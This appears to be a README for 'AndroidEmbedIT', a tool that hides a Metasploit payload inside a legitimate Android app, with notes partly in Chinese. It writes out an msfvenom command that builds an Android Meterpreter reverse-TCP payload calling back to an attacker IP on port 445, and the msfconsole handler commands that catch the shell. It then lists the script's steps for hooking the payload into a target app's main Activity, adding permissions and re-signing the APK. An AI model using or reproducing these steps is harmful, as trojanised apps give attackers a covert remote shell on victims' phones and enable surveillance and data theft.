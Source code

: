 ## AndroidEmbedIT可以配合meterpreter生成的木马msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.169.76 lport=445 R > Desktop/123.apk进行


监听
root@kali:~# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set payload android/meterpreter/reverse_tcp #设置payload
payload => android/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.169.76 #kali的IP
lhost => 192.168.169.76
msf exploit(handler) > set lport 445 #对应刚才设的端口
lport => 445
msf exploit(handler) > exploit


This script performs the following actions to embed a Metasploit
generated APK file into another legitimate APK.

* decompiles a Metasploit APK file, and any other APK file.
* locates the main Activity entrypoint in the APK being targeted
* copies all Metasploit APK staging code to destination APK
* adjusts the main Activity entrypoint smali file with an *invoke-static* call to kick off the Metasploit stage.
* adjusts the final AndroidManifest.xml with appropriate added permissions
* recompiles, and resigns the final APK file.

All actions are performed within the "~/.ae" directory which is created
during runtime.   The script requires that *keytool*, *jarsigner*, and *apktool*
are installed.  A KALI distribution will work well to run this script on.

